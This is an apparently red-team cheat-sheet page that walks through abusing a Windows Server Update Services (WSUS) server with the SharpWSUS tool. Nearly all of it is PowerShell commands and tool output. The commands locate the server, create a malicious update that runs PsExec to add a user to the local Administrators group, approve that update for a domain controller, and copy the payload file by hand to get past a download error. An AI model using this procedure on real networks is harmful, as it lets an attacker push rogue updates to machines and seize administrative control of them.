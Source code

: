 #### Identify WSUS Server

```powershell
# Check if WSUS server is present
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
    
# Using SharpWSUS
.\SharpWSUS.exe locate

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.inlanefreight.local:8530

[*] Locate complete
```

#### Inspect for more enumeration

```powershell
.\SharpWSUS.exe inspect
```

#### Create malicious update

```powershell
.\SharpWSUS.exe create /payload:"C:\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators john /add" /title:"NewUpdate"
```

#### Approve the update

To approve manually Windows Update Server Services > WSUS > Updates&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong>.\SharpWSUS.exe approve /updateid:431424f9-2bc8-43db-917c-d5cd2d2e8ae6 /computername:dc01.zencorp.local, /groupname:"FastUpdates"
</strong></code></pre>

#### Error: Files for this update failed to download

```powershell
# Get file name
Get-WinEvent -LogName Application | Where-Object { $_.Id -eq 364 } |fl

# Copy file
copy C:\Tools\sysinternals\PSExec64.exe C:\WSUS\WsusContent\02\0098C79E1404B4399BF086D88DBF052269A302.exe
```

